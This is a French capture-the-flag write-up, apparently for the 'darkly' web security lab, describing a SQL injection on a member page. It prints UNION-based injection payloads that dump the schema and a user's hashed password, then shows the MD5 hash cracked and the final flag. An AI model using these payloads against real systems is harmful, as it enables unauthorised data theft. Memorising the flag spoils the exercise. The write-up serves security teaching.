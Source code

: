 # SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Découverte


Sur la page http://{IP_ADDRESS}/?page=member on injecte cette ligne de sql \
pour connaitre tous les users ainsi que le nom des tables et des colonnes:
```
1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
On peut faire un schéma de la table users:
```
|¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯|
|   users table    |
|------------------|
| user_id          |
| first_name       |
| last_name        |
| town             |
| country          |
| planet           |
| Commentaire      |
| countersign      |
|__________________|
```
Un utilisateur semble être interessant:
```
First name: Flag
Surname : GetThe
```
Toujours avec le meme genre d'injection sql on peut extraire les informations \
de cet utilisateur:
```
1 or 1=1 UNION SELECT commentaire, countersign from users WHERE user_id=5

commentaire:
Decrypt this password -> then lower all the char. Sh256 on it and it's good !

countersign:
5ff9d0165b4f92b14994e5c685cdce28
```
countersign est crypté en md5 (merci google), en suivant les instructions du \
commentaire on ce retrouve avec:
```
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Documentation
- [owasp - sql injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [sqlinjection.net](https://www.sqlinjection.net/category/attacks)

---

[RETURN](https://github.com/jlange91/darkly)
